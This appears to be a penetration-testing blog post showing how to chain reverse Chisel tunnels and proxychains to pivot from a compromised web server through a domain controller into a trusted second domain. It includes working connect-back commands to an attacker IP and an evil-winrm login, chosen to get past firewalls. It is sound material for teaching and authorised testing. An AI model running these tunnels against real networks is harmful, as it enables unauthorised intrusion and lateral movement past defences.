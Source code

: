 ```yaml
---
layout: post
title: Double Pivot Using Chisel
subtitle: Using Chisel to pivot to internal networks
#thumbnail-img: /assets/img/nunchucks.png
tags: [guide]
---
```

# Double Pivot Using Chisel
[Chisel](https://github.com/jpillora/chisel) is a powerful tool that allows you to create tunnels and pivot to internal resources and other networks. Suppose you have successfully compromised an external-facing web server and want to access other machines connected to its internal network. In this situation, you can use Chisel to create a tunnel between your machine and the web server. This would allow you to bypass firewalls or other security measures and access the target network from your own machine, making it easier to perform a thorough penetration test or security assessment.

Suppose you have successfully compromised the internal network, mordor.lan, and you have discovered that it has a two-way trust with another domain, gondor.local. Additionally, the Domain Controller (DC) in mordor.lan has access to the gondor.local domain. To access the gondor.local domain, you can use Chisel to create another tunnel on the DC back to your machine. This would give you access to the second network, allowing you to further explore and assess the security of the target environment.

Below is a basic diagram visualizing what is explained above

![IMG](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/doubleChiselPivot.jpg)

## Pivot 1
One option to pivot would be send all traffic from the mordor DC to the attacking machine. The first thing is to add/confirm this line in `/etc/proxychains4.conf`. This will be the port that proxychains routes through.
```
socks5 127.0.0.1 1080
```

Next set up two listeners on your attacking machine. The first will be to catch the tunnel from the webserver and the second from the DC. I chose 139 & 443 as they are likely to be let through a firewall.

```
./chisel_linux server -p 443 --reverse
./chisel_linux server -p 139 --reverse
```

On the webserver you connect back to the attacking machine to establish the tunnel. This would give the attacking machine access to the mordor.local network.
```
./chisel_linux client 43.21.16.165:443 R:socks
```

Using proxychains establish a connection to the DC and then run chisel to establish the second tunnel.
```
proxychains evil-winrm -i 192.168.10.54
.\Chisel.exe client 43.21.16.165:139 R:1081:socks
```

Then go back into `/etc/proxychains.conf` and add update the port to the second tunnel. This will make proxychains go through the tunnel established by the DC, giving access to gondor.local.
```
socks5 127.0.0.1 1081
```

## Pivot 2
The second requires more setup but is more scalable in the long run. It allows for a multi level pivot, meaning if there were 5 networks it could handle it.

Again verify that `/etc/proxychains4.conf` will use port 1080
```
socks5 127.0.0.1 1080
```

Start a chisel listener on the attacking machine.
```
./chisel_linux server -p 9001 --reverse
```

On the webserver connect back to the attacking machine establishing a tunnel.
```
./chisel_linux client 43.21.16.165:9001 R:1080:socks
```

The webserver will then be used as a chisel server as well. It will accept connections on port 9002 and will be forwarding the traffic back to kali
```
./chisel_linux server -p 9002 --reverse
```

On the DC connect to the webserver and establish a tunnel.
```
chisel.exe client 192.168.10.30:9002 R:1081:socks
```

Now edit `/etc/proxychains4.conf` to include 
```
socks5 127.0.0.1 1080
socks5 127.0.0.1 1081
```

Our pivot is now complete and can access the gondor network. If a machine on the gondor network had access to another network we would set up a chisel server on the mordor DC and have the gondor DC connect back

```
#On mordor DC
chisel.exe server -p 9003 --reverse

#on gondor DC
chisel.exe client 192.168.10.45:9003 R:1082:socks

#on attacking machine add new proxychains4 entry
socks5 127.0.0.1 1080
socks5 127.0.0.1 1081
socks5 127.0.0.1 1082
```


## Summary
Overall, Chisel is a tool that allows users to create tunnels and pivot to other networks by bypassing firewalls and other security measures. By creating encrypted channels between machines, Chisel enables users to access internal resources and other networks from their own machines, making it easier to perform security assessments and penetration tests. Chisel is a versatile tool that can be used in a variety of scenarios, such as when a user has successfully compromised a machine on a target network but is unable to move laterally to other machines
